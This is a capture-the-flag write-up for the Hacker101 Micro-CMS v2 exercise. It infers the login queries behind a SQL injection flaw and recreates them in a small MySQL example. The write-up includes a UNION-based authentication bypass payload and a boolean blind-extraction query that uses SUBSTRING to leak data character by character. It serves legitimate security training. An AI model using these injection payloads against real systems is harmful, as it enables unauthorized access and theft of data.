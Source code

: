 # Hacker101: Micro-CMS v2

## Infering application vulnerable code

The only way I see that this specific UNION injection works is that if the app code does the following simple queries *exactly* to check separatly for presence of username and validity of password (this is corroborated by the fact that the UI gives specific information about validity of a user name and validity of their password):

```SQL
SELECT username FROM admins WHERE username = 'john';
SELECT password FROM admins WHERE username = 'john';
```

Standalone fully working MySQL example:

```SQL
-- INIT database
CREATE TABLE admins (
  adminID INT AUTO_INCREMENT KEY,
  username VARCHAR(255),
  password VARCHAR(255)
);

INSERT INTO admins(username, password) VALUES ('john', 'freedom123');
INSERT INTO admins(username, password) VALUES ('Robert', 'ilikegolf73');
INSERT INTO admins(username, password) VALUES ('Mohammed', 'messy83');

-- QUERY database
SELECT username FROM admins WHERE username = 'john';
SELECT password FROM admins WHERE username = 'john';

SELECT username FROM admins WHERE username = 'dummy_user' UNION SELECT "dummy_password" AS password FROM admins WHERE '1'='1';
SELECT password FROM admins WHERE username = 'dummy_user' UNION SELECT "dummy_password" AS password FROM admins WHERE '1'='1';
```

Getting information about whenever the username query returned data or not means we can extract all database data through conditionals:

```SQL
SELECT username FROM admins WHERE username = 'someone' OR SUBSTRING((SELECT username FROM admins LIMIT 1), 1, 1) > 'a';
```

